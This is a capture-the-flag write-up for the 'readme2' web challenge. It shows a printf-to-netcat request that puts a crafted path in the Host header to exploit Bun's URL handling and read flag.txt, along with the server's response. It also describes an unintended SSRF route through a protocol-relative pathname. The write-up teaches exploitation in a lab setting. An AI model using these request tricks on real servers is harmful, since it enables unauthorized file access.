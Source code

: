 # readme2

* Category: Web
* Score: 249/500
* Solves: 56

## Description

Try to read the `flag.txt` file, again!

## Solution

Bun will put the value of `Host` header into `req.url`, which allows us to do many funny things to bypass the check.

```bash
> printf 'GET /.. HTTP/1.0\r\nHost: fakehost/fla\tg.txt\r\n\r\n' | nc readme2.chal.imaginaryctf.org 80
HTTP/1.1 200 OK
Content-Type: text/plain;charset=utf-8
Date: Sun, 21 Jul 2024 08:37:29 GMT
Date: Sun, 21 Jul 2024 08:37:29 GMT
Content-Length: 43

ictf{just_a_funny_bug_in_bun_http_handling}
```

## Unintended Solution :sob:

Due to this line:

```js
return fetch(new URL(url.pathname + url.search, 'http://localhost:3000/'), {
    method: req.method,
    headers: req.headers,
    body: req.body
})
```

You can make `url.pathname` starting with two slashes, and it will be seen as a protocol-relative URL and fetch arbitrary hosts. This means you can set up a server to have it redirect to `http://localhost:3000/flag.txt` and get the flag.
